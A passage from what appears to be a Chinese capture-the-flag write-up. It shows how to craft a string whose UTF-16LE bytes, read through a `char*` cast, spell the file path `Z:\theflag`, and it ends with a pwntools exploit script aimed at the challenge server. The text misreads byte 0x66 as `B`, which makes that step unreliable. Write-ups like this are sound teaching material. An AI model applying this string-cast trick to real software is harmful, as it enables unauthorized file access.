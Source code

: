 然后追加 `you_cant_get_the_flag`：

```
$ echo -n "flagyou_cant_get_the_flag" | iconv -f ascii -t utf-16le | hexyl -g 2
┌────────┬─────────────────────┬─────────────────────┬────────┬────────┐
│00000000│ 6600 6c00 6100 6700 ┊ 7900 6f00 7500 5f00 │f⋄l⋄a⋄g⋄┊y⋄o⋄u⋄_⋄│
│00000010│ 6300 6100 6e00 7400 ┊ 5f00 6700 6500 7400 │c⋄a⋄n⋄t⋄┊_⋄g⋄e⋄t⋄│
│00000020│ 5f00 7400 6800 6500 ┊ 5f00 6600 6c00 6100 │_⋄t⋄h⋄e⋄┊_⋄f⋄l⋄a⋄│
│00000030│ 6700                ┊                     │g⋄      ┊        │
└────────┴─────────────────────┴─────────────────────┴────────┴────────┘
```

当这个字符串被强制转换为 `char*` 时，程序会从这个内存地址开始，按照 C 风格字符串的规则读取字节序列：

```
66 00 6C 00 61 00 67 00 ...
   ^
遇到 00 时字符串结束
```

即文件名为 `B`（ASCII 编码为 66）。

所以如果我们精心构造一个字符串，让它在 UTF-16 编码下的字节序列满足：当被强制转换为 `char*` 时，这些字节正好表示 `Z:\\theflag`，并且紧跟一个 `NULL` 字节。

假设我们需要构造路径 `Z:\\theflag`，它的字节序列（包括 `NULL`）是：

```
$ echo -ne "Z:\\\\theflag\x00" | hexyl
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 5a 3a 5c 74 68 65 66 6c ┊ 61 67 00                │Z:\thefl┊ag⋄     │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

我们需要找到一个字符串，它的 UTF-16LE 编码恰好是这个序列，即每两个字节组成一个 UTF-16 字符：

```
$ echo -ne "Z:\\\\theflag\x00" | hexyl -g 2
┌────────┬─────────────────────┬─────────────────────┬────────┬────────┐
│00000000│ 5a3a 5c74 6865 666c ┊ 6167 00             │Z:\thefl┊ag⋄     │
└────────┴─────────────────────┴─────────────────────┴────────┴────────┘
```

这个过程在 Python 中很好实现：

```python
payload = b"Z:\\\\theflag\x00".decode("utf-16-le").encode()
```

### 利用脚本

```python
from pwn import *

context.log_level = "debug"

token = "<your_token>"

io = remote("202.38.93.141", 14202)
io.sendlineafter(b"token", token.encode())

payload = b"Z:\\\\theflag\x00".decode("utf-16-le").encode()
io.sendlineafter(b"to it:", payload)

io.interactive()
```
